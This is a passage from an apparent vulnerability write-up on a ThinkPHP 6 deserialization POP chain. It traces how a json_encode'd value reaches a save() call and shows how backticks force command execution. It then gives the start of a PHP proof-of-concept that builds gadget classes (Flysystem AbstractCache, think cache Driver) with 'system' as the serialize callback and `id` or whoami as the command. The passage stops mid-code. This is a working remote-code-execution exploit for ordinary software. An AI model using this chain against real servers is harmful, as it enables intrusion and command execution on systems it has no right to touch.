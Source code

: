 <img src="./images/tp6-pop-2-7.png" alt="">

> Then look at the source of the required parameter `$data`. The traceability found that it first comes from the value of `$value`, and then return to the `$contents` parameter of the `save()` method. Since the `$contents` parameter comes from the `getForStorage()` method, it needs to pass the `json_encode()` method, so the data after `json_encode` needs to be executed as code
> Due to json_encode, the command is wrapped in square brackets and cannot be executed normally. In Linux environment, the form `command` can be used to make the wrapped command execute priority

<img src="./images/tp6-pop-2-8.png" alt="">

#### POC
```php
<?php

namespace League\Flysystem\Cached\Storage {
	abstract class AbstractCache {
		protected $autosave = false;
    	protected $complete = "`id`";
        // protected $complete = "\"&whoami&" ;
        // Backticks are invalid in Windows environment, use & replace
	}
}

namespace think\filesystem {
	use League\Flysystem\Cached\Storage\AbstractCache;
	class CacheStore extends AbstractCache {
		protected $key = "1";
		protected $store;
		public function __construct($store="") {
			$this->store = $store;
		}
	}
}

namespace think\cache {
	abstract class Driver {
		protected $options = ["serialize"=>["system"],"expire"=>1,"prefix"=>"1","hash_type"=>"sha256","cache_subdir"=>"1","path"=>"1"];
	}
}

namespace think\cache\driver {
	use think\cache\Driver;
	class File extends Driver{}
```